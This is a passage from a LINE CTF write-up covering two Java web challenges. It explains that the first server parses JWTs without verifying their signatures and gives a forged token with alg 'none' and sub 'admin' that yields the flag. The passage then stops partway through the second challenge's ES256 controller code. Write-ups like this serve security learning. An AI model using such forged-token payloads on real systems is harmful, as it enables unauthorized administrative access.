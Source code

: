 ```java
        }

        model.addAttribute("jwt", jwt_guest);
        model.addAttribute("sub", sub);
        if (sub.equals(ADMIN)) model.addAttribute("flag", FLAG);

        return "index";
    }
}
```

As we can see, the JWT library is only parsing the incoming JWT, not actually verifying that the JWT was hashed with the given secretKey. All we have to do is to set the `alg` to `none` and sub to `admin`, we can use [https://token.dev/](https://token.dev/) for that:
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJzdWIiOiJhZG1pbiJ9
```
Which decodes to 
```
Header
{
  "typ": "JWT",
  "alg": "none"
}
Payload
{
  "sub": "admin"
}
```

**LINECTF{337e737f9f2594a02c5c752373212ef7}**

<a name="jalyboy-jalygirl"></a>
## jalyboy-jalygirl (100 pts, 189 solves) - Web

Description:
```
It's almost spring. Do you like Java?

http://34.85.123.82:10001/
```

This is the new `JwtController.java`, we can compare it to `jalyboy-baby` to more easily find the vulnerability:
```java
@Controller
public class JwtController {

    public static final String ADMIN = "admin";
    public static final String GUEST = "guest";
    public static final String UNKNOWN = "unknown";
    public static final String FLAG = System.getenv("FLAG");
    KeyPair keyPair = Keys.keyPairFor(SignatureAlgorithm.ES256);

    @GetMapping("/")
    public String index(@RequestParam(required = false) String j, Model model) {
        String sub = UNKNOWN;
        String jwt_guest = Jwts.builder().setSubject(GUEST).signWith(keyPair.getPrivate()).compact();
        System.out.println(keyPair.getPrivate().getEncoded());
        System.out.println(keyPair.getPublic());

        try {
            Jws<Claims> jwt = Jwts.parser().setSigningKey(keyPair.getPublic()).parseClaimsJws(j);
            Claims claims = (Claims) jwt.getBody();
```